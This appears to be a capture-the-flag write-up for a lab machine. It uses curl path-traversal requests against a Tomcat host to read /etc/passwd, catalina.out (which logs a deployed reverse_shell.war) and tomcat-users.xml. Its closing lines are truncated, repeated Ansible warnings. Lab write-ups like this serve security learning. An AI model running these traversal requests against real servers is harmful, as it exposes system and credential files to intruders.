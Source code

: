 <img width="1363" height="645" alt="image" src="https://github.com/user-attachments/assets/261f49f6-d121-43df-acaf-c64b89642aa8" />



<br>
<br>
<h2>Web port 8888  .  /etc/passwd  .  catalina.out  .  tomcat-users.xml</h2>

```bash
:~/Backtrack# curl --path-as-is http://xx.xxx.xx.xxx:8888/../../../../../../../../../../etc/passwd | grep '/bin/bash'
...
root:x:0:0:root:/root:/bin/bash
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```


```bash
:~/Backtrack# curl --path-as-is http://xx.xxx.xx.xxx:8888/../../../../../../../../../../opt/tomcat/logs/catalina.out
...
09-Mar-2024 11:57:18.198 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployDirectory Deploying web application directory [/opt/tomcat/webapps/ROOT]
...
09-Mar-2024 12:13:36.144 INFO [http-nio-8080-exec-2] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive [/opt/tomcat/webapps/reverse_shell.war]
09-Mar-2024 12:13:36.624 INFO [http-nio-8080-exec-2] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive [/opt/tomcat/webapps/reverse_shell.war] has finished in [479] ms
```

```bash
:~/Backtrack# curl --path-as-is http://xx.xxx.xx.xxx:8888/../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="******************" roles="manager-script"/>

</tomcat-users>
```


<h2>:8080/manager</h2>

<img width="1211" height="246" alt="image" src="https://github.com/user-attachments/assets/e97ae242-8c1b-4bdb-8d9c-f098f675fc58" />

<br>
<br>
<h2>:8080/manager/html</h2>


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-